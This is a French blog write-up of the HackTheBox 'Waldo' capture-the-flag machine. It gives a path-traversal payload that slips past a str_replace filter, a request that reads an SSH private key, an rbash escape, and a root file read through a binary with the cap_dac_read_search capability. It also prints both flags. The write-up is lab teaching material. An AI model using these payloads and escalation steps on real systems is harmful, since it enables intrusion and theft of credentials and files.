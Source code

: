 # Solution du CTF Waldo de HackTheBox

Il était où hein le Charlie ?
-----------------------------

Un port SSH, un port HTTP... difficile de faire plus classique comme début.  

Sur la page d'index un système de gestion de listes :  

![Waldo CTF HackTheBox list manager](https://github.com/devl00p/blog/raw/master/images/htb/waldo_list_manager.png)

En ouvrant les dev-tools on trouve des requêtes XHR comme cette requête vers *dirRead.php* pour lister les listes et qui sent bon le path traversal :  

![Waldo CTF HackTheBox list manager XHR](https://github.com/devl00p/blog/raw/master/images/htb/waldo_xhr.png)

Si on accède à une liste c'est *fileRead.php* qui est appelé. Même pressentiment :)  

Le plus pratique est d'intercepter la requête à travers [Zed Attack Proxy](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project) pour pouvoir ensuite l'éditer et la retransmettre.  

On remarque vite une particularité si on tente de remonter dans le path :  

```plain
path= => [".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]
path=. => [".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]
path=.. => [".","..","html","localhost"]
path=../.. => [".","..","html","localhost"]
path=../../ => [".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]
```

Au boût d'un moment on revient au répertoire courant, il y a donc un *str\_replace()* qui doit corriger notre path.  

Si on part de l'idée que le filtre est sur ../../ alors on peut le précéder de .. et ajouter un / final ainsi la suite de caractères ..../..// correspondra à une remontée dans l’arborescence :  

```plain
path=..../..//..../..// => [".","..","cache","empty","lib","local","lock","log","opt","run","spool","tmp","www"]
path=..../..//..../..//..../..// => [".","..",".dockerenv","bin","dev","etc","home","lib","media","mnt","proc","root","run","sbin","srv","sys","tmp","usr","var"]
```

On se balade jusqu'à ce dossier :  

```plain
path=..../..//..../..//..../..//home/nobody
[".","..",".ash_history",".ssh",".viminfo","l.sh","user.txt"]
```

Et dans le dossier *.ssh* on voit un fichier *.monitor* qui s'avère être... la clé privée SSH :)  

Pour obtenir le contenu la même faille est présente sur l'autre script ce qui nous amène à cette requête :  

```plain
POST http://10.10.10.87/fileRead.php HTTP/1.1
file=..../..//..../..//..../..//home/nobody/.ssh/.monitor
```

Free Charlie
------------

```plain
$ ssh -i waldo.key nobody@10.10.10.87
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <http://wiki.alpinelinux.org>.
waldo:~$ id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
```

Hmmm Charlie semble être enfermé dans un environnement *Docker* (*Alpine* est une version de Linux souvent utilisée dans ces envs parce que très allégée).  

Cela est très vite confirmé avec les interfaces réseau :  

```plain
docker0   Link encap:Ethernet  HWaddr 02:42:D3:28:1C:FD
          inet addr:172.17.0.1  Bcast:172.17.255.255  Mask:255.255.0.0
          UP BROADCAST MULTICAST  MTU:1500  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
      RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)
```

L'accès est suffisant pour avoir le flag utilisateur (*32768bcd7513275e085fd4e7b63e9d24*).  

Prends la clé ! Sors sors !
---------------------------

Dans la liste des *authorized\_keys* de notre compte *nobody* se trouve une référence à un certain *monitor* :  

```plain
ssh-rsa AAAAB3NzaC1---snip---Y4jBHvf monitor@waldo
```

Si on réutilise la clé pour accéder au serveur SSH depuis le docker :  

![Waldo CTF HackTheBox monitor ssh account ascii art](https://github.com/devl00p/blog/raw/master/images/htb/waldo_ascii_art.png)

On peut facilement bypasser le lancement du rbash (un bash restreint) en spécifiant le shell que l'on souhaite à SSH (on utilisera ici les options -t bash --noprofile).  

On obtient un shell à première vue limitée mais il s'agit en réalité du PATH peu remplis, ce qui est vite corrigé :  

```plain
monitor@waldo:~$ echo $PATH
/home/monitor/bin:/home/monitor/app-dev:/home/monitor/app-dev/v0.1
monitor@waldo:~$ export PATH=/bin:/usr/bin:/sbin:/usr/sbin:/usr/local/bin:/usr/local/sbin:$PATH
```

Say Cap-tain, Say wut ?
-----------------------

Après avoir tourné un moment à chercher un chemin classique d'exploitation il est temps de se pencher sur les fichiers présents dans le dossier app-dev.  

On trouve un exécutable *logMonitor* à l'usage suivant :  

```plain
Usage: logMonitor [-aAbdDfhklmsw] [--help]
```

Contrairement à ce qu'on pouvait espérer l'option *--help* ne donne pas d'aide détaillée mais qu'importe puisque le code C est aussi présent :  

```c
{"auth", no_argument, 0, 'a'},
{"alternatives", no_argument, 0, 'A'},
{"btmp", no_argument, 0, 'b'},
{"dpkg", no_argument, 0, 'd'},
{"daemon", no_argument, 0, 'D'},
{"faillog", no_argument, 0, 'f'},
{"help", no_argument, 0, 'h'},
{"kern", no_argument, 0, 'k'},
{"lastlog", no_argument, 0, 'l'},
{"messages", no_argument, 0, 'm'},
{"syslog", no_argument, 0, 's'},
{"wtmp", no_argument, 0, 'w'},
```

En fonction de l'option choisie un path hardcodé est recopié vers une variable *filename*. Une fonction *printFile* est ensuite appelée qui affiche le fichier demandé via une boucle avec *fgetc* et *printf* (beurk).  

Parmi les paths correspondantq aux options on trouve */var/log/auth.log*, */var/log/faillog*, */var/log/wtmp*, etc autant dire des fichiers généralement pas accessibles à tout le monde.  

D'ailleurs si on lance *logMonitor -f* pour obtenir le *faillog* on obtient le message d'erreur *Cannot open file*.  

Le binaire n'est pas setuid et sudo n'est pas installé... logique quoi.  

En revanche une fois dans le sous dossier *v0.1* le binaire *logMonitor-0.1* parvient à lire le fichier... avec les mêmes observations (il n'est pas setuid) so what the fuck !?  

On fait un *getcap* dessus pour lister ses [capabilities](http://man7.org/linux/man-pages/man7/capabilities.7.html) et surprise :  

```plain
logMonitor-0.1 = cap_dac_read_search+ei
```

Ce programme a le super-pouvoir d'accéder à n'importe quel fichier du système en se moquant bien des permissions.  

Mais après avoir bien épluché le code C ce dernier ne semble pas faillible. Je ne suis pas au point sur les détails de fonctionnement des *capabilities* alors dans le doute j'ai tenté de hooker l'appel à *puts()* dans le code (via un *LD\_PRELOAD*) mais sans trop de surprises ça n'a pas été pris en compte.  

Finalement il fallait faire un gros *getcap* sur le disque pour trouver un autre binaire avec les même super-pouvoirs :  

```plain
monitor@waldo:~/app-dev$ getcap -r / 2> /dev/null
/usr/bin/tac = cap_dac_read_search+ei
/home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei

monitor@waldo:~/app-dev$ tac /root/root.txt
8fb67c84418be6e45fbd348fd4584f6c
```


*Published December 15 2018 at 19 09*